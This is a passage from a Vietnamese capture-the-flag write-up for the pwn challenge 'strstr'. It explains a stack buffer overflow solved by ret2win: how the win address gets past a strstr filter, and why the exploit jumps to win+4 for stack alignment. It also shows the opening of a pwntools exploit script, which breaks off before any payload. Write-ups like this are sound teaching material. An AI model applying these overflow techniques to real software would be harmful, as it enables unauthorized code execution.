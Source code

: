 ```python
# KCSC{Y0u_g0T_1h3_Sup3R_s3Cr31_F14g}
```

## pwn/strstr

{{< admonition note "Challenge Information" >}}
* 6 solves / 400 pts / by Wan
* **Given files:** 
  * [chall](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EcOEg_DwZalImTfKKKYe-PQB5pYivg-yZved4VwaC8E7vQ?e=UzTYVN)
  * [chall.c](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EYeP36OiA_ZJvskdROPzYv8BCAwCVSnsiYLFV8IQXL-WfQ?e=eA3FL8)
* **Description:** simple description since it’s simple overflow\
`nc 103.162.14.116 12005`
{{< /admonition >}}

**Solution**

Đề bài cho chúng là luôn source code, quan sát kỹ thì thấy có bug BOF để ret2win. Nhưng ở hàm `filter` có check 1 số string 

```c
if(strstr(buf, "v\x11@") || strstr(buf, "w\x11@") || strstr(buf, "z\x11@") != NULL)
    {
        printf("bypass strstr pls");
        exit(0);
    }
```

Địa chỉ hàm `win` nằm ở `0x401186` nghĩa là chỉ bị trùng 2 byte `\x11@` nên ta sẽ không bị kill. Chương trình có lỗi SIGSEGV do stack layout chưa được căn chỉnh. Vì vậy mình nhảy luôn vào `win + 4` để tránh việc `push rbp` vào stack. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld-2.35.so")

context.os = "linux"
context.arch = "amd64"
context.log_level = "debug"
context.binary = exe 

p = process(exe.path)
# p = remote("localhost", 1337)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0])

def sa(*args):
    return p.sendafter(args[0], args[1]) 

def rl(): 
    return p.recvline()

def GDB():
    gdb.attach(p, gdbscript = """
        b* main+127
        continue
```